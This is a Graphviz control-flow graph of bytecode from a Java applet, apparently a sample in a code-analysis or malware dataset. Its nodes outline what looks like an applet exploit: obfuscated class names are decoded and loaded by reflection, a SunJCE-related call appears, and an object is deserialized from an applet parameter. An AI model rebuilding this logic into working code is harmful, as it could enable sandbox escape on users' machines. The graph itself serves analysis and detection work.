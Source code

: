 digraph "" {
    "r0 := @this: hw"
    "push \"juIu.LWyf.+hd+LttZ\""
    "r0 := @this: hw"->"push \"juIu.LWyf.+hd+LttZ\"";
    "push \"dW.uWhYy+.-WhYy+KZsZtZd+Z-ttu)\""
    "push \"juIu.LWyf.+hd+LttZ\""->"push \"dW.uWhYy+.-WhYy+KZsZtZd+Z-ttu)\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"dW.uWhYy+.-WhYy+KZsZtZd+Z-ttu)\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <hw: java.lang.String mimimi(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <hw: java.lang.String mimimi(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <hw: java.lang.String mimimi(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "push 2"
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"push 2";
    "newarray"
    "push 2"->"newarray";
    "store.r r3"
    "newarray"->"store.r r3";
    "load.r r3"
    "store.r r3"->"load.r r3";
    "push 0"
    "load.r r3"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "arraywrite.r"
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "push 1"
    "load.r r3"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "push \"set\""
    "arraywrite.r"->"push \"set\"";
    "push \"set\""->"load.r r3";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "load.r r3"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "staticinvoke <BadRun: java.lang.String getSunJCE()>"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"staticinvoke <BadRun: java.lang.String getSunJCE()>";
    "staticinvoke <BadRun: java.lang.String getSunJCE()>"->"staticinvoke <hw: java.lang.String mimimi(java.lang.String)>";
    "load.r r0"
    "staticinvoke <hw: java.lang.String mimimi(java.lang.String)>"->"load.r r0";
    "staticinvoke <popers: java.lang.String get(java.applet.Applet)>"
    "load.r r0"->"staticinvoke <popers: java.lang.String get(java.applet.Applet)>";
    "staticinvoke <popers: java.lang.String get(java.applet.Applet)>"->"store.r r3";
    "staticinvoke <Hello: java.io.ObjectInputStream ccz(java.lang.String)>"
    "store.r r3"->"staticinvoke <Hello: java.io.ObjectInputStream ccz(java.lang.String)>";
    "staticinvoke <hw: java.lang.Object[] zzx(java.io.ObjectInputStream)>"
    "staticinvoke <Hello: java.io.ObjectInputStream ccz(java.lang.String)>"->"staticinvoke <hw: java.lang.Object[] zzx(java.io.ObjectInputStream)>";
    "dup1.r"
    "staticinvoke <hw: java.lang.Object[] zzx(java.io.ObjectInputStream)>"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "store.r $r14"
    "newarray"->"store.r $r14";
    "load.r $r14"
    "store.r $r14"->"load.r $r14";
    "load.r $r14"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <hw: java.lang.Object zzc()>"
    "load.r r0"->"virtualinvoke <hw: java.lang.Object zzc()>";
    "virtualinvoke <hw: java.lang.Object zzc()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r14";
    "load.r $r14"->"push 1";
    "new java.lang.StringBuilder"
    "push 1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"popers\""
    "dup1.r"->"push \"popers\"";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "push \"popers\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \".cl\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \".cl\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \".cl\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ass\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ass\"";
    "push \"ass\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r14";
    "load.r $r14"->"push 2";
    "push 515"
    "push 2"->"push 515";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 515"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "store.r r0"
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r14";
    "push 3"
    "load.r $r14"->"push 3";
    "push 3"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r14";
    "push 4"
    "load.r $r14"->"push 4";
    "push 4"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"load.r $r14";
    "staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>"
    "load.r $r14"->"staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>";
    "staticinvoke <popers: void aaa(java.lang.reflect.Method,java.lang.Object[])>"->"load.r $r14";
    "load.r $r14"->"push 4";
    "push 4"->"arrayread.r";
    "checkcast"
    "arrayread.r"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"load.r r3";
    "staticinvoke <popers: void begbernge(popers,java.lang.String)>"
    "load.r r3"->"staticinvoke <popers: void begbernge(popers,java.lang.String)>";
    "goto return"
    "staticinvoke <popers: void begbernge(popers,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "staticinvoke <popers: void begbernge(popers,java.lang.String)>"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
}
